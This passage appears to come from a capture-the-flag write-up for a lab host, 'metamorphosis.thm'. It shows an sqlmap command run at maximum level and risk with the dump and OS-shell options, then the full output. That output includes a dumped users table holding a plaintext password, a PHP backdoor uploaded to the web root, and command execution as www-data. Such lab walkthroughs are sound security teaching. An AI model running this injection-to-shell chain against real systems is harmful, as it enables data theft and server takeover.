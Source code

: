 `sqlmap --random-agent -r sqlmapreq.txt --level 5 --risk 3 --dump --batch -D 'db' -p 'username' --os-shell`

```jsx
Database: db
Table: users
[1 entry]
+----+-------+----------+
| id | uname | password |
+----+-------+----------+
| 1  | tom   | thecat   |
+----+-------+----------+

[04:45:18] [INFO] table 'db.users' dumped to CSV file '/root/.local/share/sqlmap/output/metamorphosis.thm/dump/db/users.csv'
[04:45:18] [INFO] going to use a web backdoor for command prompt
[04:45:18] [INFO] fingerprinting the back-end DBMS operating system
[04:45:18] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] Y
[04:45:19] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[04:45:19] [WARNING] unable to automatically parse any web server path
[04:45:19] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[04:45:21] [WARNING] unable to upload the file stager on '/var/www/'
[04:45:21] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[04:45:22] [WARNING] expect junk characters inside the file as a leftover from UNION query
[04:45:22] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[04:45:23] [INFO] trying to upload the file stager on '/var/www/admin/' via LIMIT 'LINES TERMINATED BY' method
[04:45:26] [WARNING] unable to upload the file stager on '/var/www/admin/'
[04:45:26] [INFO] trying to upload the file stager on '/var/www/admin/' via UNION method
[04:45:27] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[04:45:29] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[04:45:31] [WARNING] unable to upload the file stager on '/var/www/html/'
[04:45:31] [INFO] trying to upload the file stager on '/var/www/html/' via UNION method
[04:45:32] [INFO] the remote file '/var/www/html/tmpujsof.php' is larger (707 B) than the local file '/tmp/sqlmap4dd893pn38276/tmpe324sm0t' (705B)
[04:45:34] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://metamorphosis.thm:80/tmpujsof.php
[04:45:35] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://metamorphosis.thm:80/tmpbfcos.php
[04:45:35] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

```